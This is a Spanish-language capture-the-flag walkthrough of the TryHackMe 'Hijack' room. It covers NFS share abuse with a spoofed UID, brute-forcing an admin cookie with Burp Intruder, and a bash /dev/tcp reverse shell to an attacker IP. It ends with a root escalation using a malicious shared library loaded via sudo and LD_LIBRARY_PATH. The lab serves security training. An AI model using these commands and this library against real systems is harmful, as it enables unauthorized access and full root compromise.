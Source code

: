 https://tryhackme.com/r/room/hijack
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sT -Pn -p- --open --min-rate 5000 -T5 -vvv -n 10.10.147.135 -oG allports
```
![[Pasted image 20240429211657.png]]
## Reconocimiento de servicios
```
nmap -sCV -p21,22,80,111 10.10.147.135 -oN targeted
```
![[Pasted image 20240429211826.png]]
## Comprobar el RPC
En nuesttro caso es un network file system
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.147.135
```
![[Pasted image 20240429221013.png]]

Lo montamos en nuestro sistema
```
mount 10.10.147.135:/mnt/share /mnt/hijack
```
![[Pasted image 20240429222200.png]]
Los permisos son de 1003
1. Creamos un usuario con ese UID y GIUD
```
groupadd -g 1003 hijacker
useradd -u 1003 -g 1003 hijacker
passwd hijacker
```
2. Nos conectamos con el ususario
```
su hijacker
```
3. Cuando listamos el directorio contiene un archivo
Este archivo contiene las credenciales FTP
![[Pasted image 20240429222800.png]]
## Gobuster
```
gobuster dir -u http://10.10.147.135 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
```
![[Pasted image 20240429213924.png]]

# Fase de ataque
## FTP 
Nos conectamos con las credenciales dadas
Encontramos un fichero
```
ftp> ls -la
```
Los ficheros contienen un aviso de admin de que el otro fichero son contraseñas para su uso.
## Burpsuite
Podemos observar que en el login de la web, si el usuario no existe te lo reporta.
Vemos que el usuario ADMIN si existe
1. Con Burpsuite capturamos la petición
2. Vemos que podemos modificar la cookie y que la cookie concide con la contraseña y usuario
3. Hasheamos la contraseña
```
for i in $(cat passwords.txt); do echo -n "$i" | md5sum | tr -d " -" >>hash.txt; done
```
4. URLencondeamos la contraseña
```
for i in $(cat hash.txt); do echo -n "admin:$i" | base64 | tr -d " -" >> passwrdcode.txt; done
```
 5. Cargamos el intruder con las Cookies creadas
![[Pasted image 20240429233349.png]]
![[Pasted image 20240429233402.png]]
Enontramos la Cookie del Admin
6. Modificamos la Cookie en el navegador
![[Pasted image 20240429233626.png]]
## Entramos al panel
1. Lanzamos el la Reverse shell
```
sshd && bash -c 'bash -i >& /dev/tcp/10.9.2.97/1111 0>&1'
```
3. Nos ponemos en escucha por el puerto 443 para recibir la Shell
``` 
nc -nlvp 1111
```
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```
# Privilege Escalation
Dentro de config.php está el usuario y contraseña de un usuario
![[Pasted image 20240429235529.png]]
Nos conectamos
Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegioss puede utilizar el usuario
```
sudo -l
```
![[Pasted image 20240429235602.png]]
## LD_LIBRARY_PATH
1. Creamos un programa en C en /tmp que lanza una terminal root
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
2. Compilamos
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/shell.c
```
3. Ejecutamos el shell con el comando con privilegios
```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
[+] ==pwned!==



